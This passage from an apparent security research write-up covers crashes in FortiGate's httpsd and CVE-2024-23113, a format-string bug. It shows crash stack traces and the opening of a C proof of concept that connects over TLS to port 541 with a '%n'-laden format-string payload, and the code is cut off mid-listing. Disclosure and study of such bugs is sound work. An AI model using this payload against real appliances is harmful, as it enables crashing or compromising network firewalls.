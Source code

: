 ```text
  (__libc_start_main+0x000000eb) liboffset 00023deb
  <02664> [0x004450da] => /bin/httpsd  
```

Unsurprisingly, this crash looks almost identical to the last one. The only
difference is the stack trace, which shows

```text
  (__snprintf+0x00000092) liboffset 00053d42
  [0x0290048a] => /bin/httpsd
  [0x00de6fbd] => /bin/httpsd
  [0x00d08dc4] => /bin/httpsd
```

rather than 

```text
  (__snprintf+0x00000092) liboffset 00053d42
  [0x0222351b] => /bin/httpsd
  [0x02223a65] => /bin/httpsd
  [0x00ddb567] => /bin/httpsd
```

### 2.3 - CVE-2024-23113

Does CVE-2024-23113 sound too complicated? In reality, it's as shrimple as

```c
  #include <string.h>
  #include <unistd.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>
  #include <openssl/ssl.h>
  #include <openssl/err.h>
  
  char *payload=\
  "reply 200\r\n"\
  "request=auth\r\n"\
  "mgmtip=%270441$1$c%n%n%n%n%n%n%n%n%n%n\r\n"\
  "\r\n";
  
  #define HOST "69.69.69.69"
  #define PORT 541
  #define KEYFILE "key.pem"
  #define CERTFILE "cert.pem"
  
  void main(){
    int sock;
    struct sockaddr_in sa={0};
    SSL_CTX *ctx;
    SSL *ssl;
    const SSL_METHOD *method;
    uint32_t len_be;
    char *fgfm_magic="\x36\xe0\x11\x00";
    
    method=TLS_server_method();
    ctx=SSL_CTX_new(method);
    SSL_CTX_use_certificate_file(ctx, CERTFILE, SSL_FILETYPE_PEM);
    SSL_CTX_use_PrivateKey_file(ctx, KEYFILE, SSL_FILETYPE_PEM);
    sock=socket(AF_INET, SOCK_STREAM, 0);
    sa.sin_family=AF_INET;
    sa.sin_port=htons(PORT);
    sa.sin_addr.s_addr=inet_addr(HOST);
    connect(sock, &sa, sizeof(struct sockaddr));
    ssl=SSL_new(ctx);
    SSL_set_fd(ssl, sock);
```